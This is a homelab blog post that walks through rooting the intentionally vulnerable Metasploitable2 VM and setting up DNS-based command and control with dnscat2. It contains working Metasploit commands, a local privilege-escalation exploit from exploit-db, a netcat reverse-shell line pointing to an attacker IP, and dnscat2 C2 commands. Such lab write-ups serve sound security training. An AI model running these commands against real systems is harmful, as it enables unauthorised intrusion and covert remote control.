 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2] # TAG names should always be lowercase
img_path: /assets/img/homelab
---
```


[main](/posts/homelab_intro)

## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
netcat listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

netcat listener on attacking machine: `whoami`

A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## DNS based command and control
1. Setup an Authoritative DNS server
2. Install dnscat2 on the server and client
3. Get command and control over DNS

Network traffic:
![dns](dnscat2_traffic_blur.png)

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. [Get a domain name](/posts/c2_over_dns/#get-a-domain-name) and point the nameservers to digitalocean nameservers
3. Setup the domain on digitalocean
4. Set low ttl for each DNS record type (It may take sometime for DNS propagation.)

## C2 using dnscat2
Download dnscat2: `git clone https://github.com/iagox86/dnscat2.git`

Server:
```bash
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R <user_name> /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat port=53531 --secret=<secret> example.com # or
sudo ./dnscat --dns port=53531,server=<ip>--secret=<secret>

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
```

## Active Directory setup
[Active Directory on Azure](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)

- I learnt AD through PEH course by TCM security. I highly recommend going through the course if you are serious about active directory pentesting. The above link is a reommnedation by Heath Adams, and it was a great source for setting up your AD network on Azure (similar setup locally). 

Update: The link is now medium members only. So, go with: https://refabr1k.gitbook.io/oscp/windows/attacking-ad/ad-hacking-lab-setup if you can't use the medium link.
